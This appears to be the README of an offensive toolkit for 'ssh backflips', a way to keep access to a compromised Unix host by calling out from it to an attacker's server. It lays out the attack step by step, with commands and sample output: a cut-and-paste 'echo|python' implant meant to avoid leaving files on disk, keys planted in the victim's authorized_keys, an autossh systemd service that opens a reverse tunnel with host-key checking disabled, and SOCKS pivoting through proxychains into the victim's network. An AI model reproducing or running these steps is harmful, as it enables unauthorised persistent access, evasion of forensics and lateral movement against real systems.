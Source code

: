 # WTF

These are backflip scripts used to create ssh backflips. This allows
for a connection outbound from a compromised unix system to an attack
machine that provides a reverse tunnel back into the attack machine's
ssh server. It deploys keys to make this all possible.

# Things to Take Note of
* Port numbers for both reverse port forwards and socks proxies will
  need to be managed out of band. Implement a process and use it.
* You are running an additional ssh server that your victims ssh
  to. This can be abused by somebody who has control of the victim
  machine. While shell access is disabled, and only reverse forwarding
  will work, one should be aware of this caveat.


# Components
The structure here is a little confusing at first. Because we don't
want to leave a script file on disk, we give cut-n-paste commands that
are of the form `echo xxx|python`. The cut-n-paste command is
generated from the scripts that are indirectly run. This is important
for the operator to understand what these scripts do on target, but
the the scripts the operator directly uses are `make_backflip.py` and
`install_proxy.py`

## Components Directly Run

### `make_backflip.py`
runs on the attack machine that gives the cut-n-paste command to
run on victim

### `install_proxy.py`
runs on attack machine and installs and starts a socks proxy into victim network

## Components Indirectly Run

### `implant.py`
embedded in `install_implant.py` that daemonizes and makes ssh
connections. Note that the current implementation uses
`subprocess.Popen` with `shell=True`, which will cause an `execve`
with `sh -c` to appear in logs.

### `install_implant.py`
template of script that will be encoded and outputed as the
cut-n-paste command by `make_backflip.py`

# How to Setup a Backflip

In our examples, our victim is 10.0.0.1 and our proxy01 external IP is
at 10.50.0.1. We setup our reverse port-forwards are on ports 4000
onwards and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host

1. run `make_backflip.py` on the attack host

	The invocation is `make_backflip.py <user> <victim-ip> <attacker-ip> <reverse listen port>`.
	Assuming the victim username is ubuntu, attack and victim ip given
	above, and listen port 4000:

		sudo ./make_backflip.py ubuntu 10.0.0.1 10.50.0.1 4000

	This will make port 4000 on proxy01 with a remote connection to
	10.0.0.1 on 22 when the command that is outputed is run on the
	victim. This will also create a keypair on the attack machine in
	`/opt/backflip/keys` with the format `<username>-<victim>-<attack>`.
	Note that you will need to allocate a new port with each blackflip
	created.

1. run the command that `make_backflip.py` outputs on the victim

   You should see output like:

		[+] keypath: /home/ubuntu/.ssh/id_rsab
		[+] wrote private key: /home/ubuntu/.ssh/id_rsab
		[+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
		[+] wrote to ~/.ssh/authorized_keys
		[+] started daemonized tunnel
		[*] waiting one minute for tunnel to come up...
		[+] tunnel running

1. run `install_proxy.py` on the attack host

	`install_proxy.py` will create a systemd service to initiate the ssh
	connection to the victim and reverse port-forward a connection to
	their ssh daemon on the attack system. Additionally, it will setup a
	SOCKS5 proxy listening on a port you specify. As above, it is
	important to note which SOCKS port you are using and each backflip
	will require a unique one.

	In this example, we setup a persistant ssh connection with reverse
	forward as well as a socks proxy on port 5000:

		sudo ./install_proxy.py 4000 5000 /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1
		contents:
		[Unit]
		Description=ssh backflip to 4000
		After=network.target auditd.service

		[Service]
		ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 -p4000 ubuntu@localhost

		[Install]
		WantedBy=multi-user.target

		Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.

	You can see that the proxy and ssh backflip are up:
	
		$ sudo netstat -lntp | grep -E "4000|5000"
		tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
		tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
		tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
		tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh

	Notice that ssh is listening on 0.0.0.0, meaning that these services
	are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip: shell access and proxy access.

## Get a Shell

`/opt/backflips/keys` contains the necessary  ssh keypairs to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
chmod 600 ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
```

Note, the user will be the same user as used above to setup the
backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-10.0.0.1-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library such as
`proxychains` or `tsocks`.

For example, a `proxychains.conf` in the current working directory
with contents as such:

	strict_chain
	# Quiet mode (no output from library)
	#quiet_mode
	proxy_dns 

	# Some timeouts in milliseconds
	tcp_read_time_out 15000
	tcp_connect_time_out 8000

	[ProxyList]
	socks5  127.0.0.1 5000

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:

```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me 
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
